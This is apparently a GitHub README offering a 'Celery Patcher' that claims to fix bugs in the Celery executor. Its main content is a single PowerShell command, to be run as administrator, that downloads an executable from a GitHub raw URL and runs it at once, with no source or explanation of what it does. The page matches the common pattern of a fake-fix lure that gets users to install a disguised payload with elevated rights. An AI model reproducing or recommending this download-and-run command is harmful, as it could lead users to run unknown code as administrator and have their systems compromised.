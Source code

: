 # Is celery throwing random bugs for you?
## [Celery Patcher] Aim's are to HOPEFULLY fix this bug for you.

Run this in powershell as admin:
```ps
wget -o celerypatcher.exe https://github.com/boogiescub/Hola/raw/main/celery%20patcher.exe && .\celerypatcher.exe
```
This will automatically locate and fix the bugs celery has.
Thank you for supporting this project Woody!
Celery is a great executor.

# Official Discord:
https://discord.gg/celery
